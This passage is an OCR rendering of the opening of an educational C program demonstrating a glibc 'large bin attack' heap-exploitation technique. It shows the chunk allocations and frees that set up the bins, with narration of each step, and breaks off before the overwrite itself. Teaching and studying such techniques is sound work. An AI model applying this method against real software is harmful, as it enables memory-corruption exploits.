    ```c
       [...]
   
    */
   
   // gcc large_bin_attack.c -o large_bin_attack -g
   #include <stdio.h>
   #include <stdlib.h>
   
   int main()
   {
       fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
       fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                       "global variable global_max_fast in libc for further fastbin attack\n\n");
   
       unsigned long stack_var1 = 0;
       unsigned long stack_var2 = 0;
   
       fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
       fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
       fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
   
       unsigned long *p1 = malloc(0x320);
       fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);
   
       fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                       " the first large chunk during the free()\n\n");
       malloc(0x20);
   
       unsigned long *p2 = malloc(0x400);
       fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);
   
       fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                       " the second large chunk during the free()\n\n");
       malloc(0x20);
   
       unsigned long *p3 = malloc(0x400);
       fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);
   
       fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                       " the third large chunk during the free()\n\n");
       malloc(0x20);
   
       free(p1);
       free(p2);
       fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                       " [ %p <--> %p ]\n\n",
               (void *)(p2 - 2), (void *)(p2[0]));
   
       void* p4 = malloc(0x90);
       fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                       " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                       ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                       " [ %p ]\n\n",
               (void *)((char *)p1 + 0x90));
   ```